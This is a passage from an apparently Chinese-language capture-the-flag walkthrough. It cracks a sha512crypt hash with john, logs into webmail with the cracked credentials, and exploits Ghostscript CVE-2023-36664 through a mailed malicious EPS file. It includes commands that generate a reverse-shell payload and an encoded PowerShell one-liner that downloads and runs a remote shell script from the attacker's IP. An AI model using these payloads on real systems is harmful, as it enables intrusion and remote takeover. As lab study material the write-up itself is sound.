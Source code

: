   ```
   ```

   从哈希结构来看，drwilliams用户是sha512的哈希格式，root用户的哈希格式无法识别。

   成功破解了drwilliams用户的密码为`qwe123!@#`

   ```
   └─# john shadow --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
   Using default input encoding: UTF-8
   Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
   Cost 1 (iteration count) is 5000 for all loaded hashes
   Will run 6 OpenMP threads
   Press 'q' or Ctrl-C to abort, almost any other key for status
   qwe123!@#        (drwilliams)     
   1g 0:00:00:21 DONE (2023-11-21 23:30) 0.04732g/s 10140p/s 10140c/s 10140C/s rufus11..pucci
   Use the "--show" option to display all of the cracked passwords reliably
   Session completed. 
   ```



3. 使用`drwilliams:qwe123!@#`登录上了443口上的web服务。

   它是一个邮件服务器，有一封邮件中提到了让目标用户发生`.eps`的文件到3D打印部门以便让GhostScript可视化。

   ![image-20231122123527506](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221338442.png)

   google发现GhostScript存在一个命令注入的漏洞，漏洞编号是[CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)

   

## 2.4、GhostScript漏洞利用

1. 使用自定义 IP 生成名为 rev_shell.eps 的新 EPS 文件（在 Unix 上触发时启动反向 shell）

   ```
   └─# python3 CVE_2023_36664_exploit.py --generate --revshell -ip 10.10.16.4 -port 443 --filename trigger_revshell --extension eps
   [+] Generated EPS payload file: trigger_revshell.eps
   ```

   将生成的恶意eps文件放在邮件附件中发送给目标

   ![image-20231122125958736](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221338660.png)

   

2. 我们并没有获取reverse shell，结合443口上的nmap信息来看目标是windows机器，修改一下payload，如下所示

   ```
   └─# python3 CVE_2023_36664_exploit.py --generate --payload "powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4ANAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQAKAA== " --filename trigger_revshell --extension eps
   [+] Generated EPS payload file: trigger_revshell.eps
   ```

   这里执行的payload是`IEX(New-Object System.Net.WebClient).DownloadString("http://10.10.16.4/Invoke-PowerShellTcp.ps1")`，下载并执行Invoke-PowerShellTcp.ps1来获取反向shell，但是由于单双引号嵌套的问题，因此对该命令进行了编码
   